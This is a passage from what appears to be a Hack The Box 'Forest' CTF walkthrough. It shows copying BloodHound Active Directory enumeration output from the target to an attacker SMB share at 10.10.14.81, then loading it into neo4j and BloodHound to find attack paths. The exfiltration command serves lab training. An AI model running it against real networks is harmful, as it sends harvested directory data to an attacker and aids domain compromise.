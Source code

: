 ```
copy 20230426020822_BloodHound.zip \\10.10.14.81\\Q\\
```

- Verify in your computer that file has been transfered successful by checking folder in which smbserver was started
- with data that i have, i will open it with bloodhound

```
sudo neo4j console
```

- In another terminal,

```
bloodhound
```

- Then import data to bloodhound and start analysis
- The following below will take through upload and analysis

[![Forest Upload Data to bloodhound](/assets/img/HTB/easy/Forest/VF.png)](https://youtu.be/t3HOsqy2wqE)

- Checking Shortest path from owned principal in sAnalysis ,You will see the following

